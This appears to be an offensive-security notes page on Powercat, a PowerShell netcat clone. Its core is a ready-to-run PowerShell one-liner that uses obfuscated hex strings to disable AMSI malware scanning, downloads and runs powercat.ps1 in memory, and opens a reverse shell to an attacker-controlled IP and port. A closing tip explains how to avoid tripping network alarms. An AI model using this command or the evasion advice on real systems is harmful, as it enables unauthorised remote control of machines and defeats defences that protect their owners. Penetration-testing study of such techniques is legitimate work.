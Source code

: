 # Using Powercat

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](./Using%20PowerShell.md)
* [Using "netcat"](./Using%20%22netcat%22.md)

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It's probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
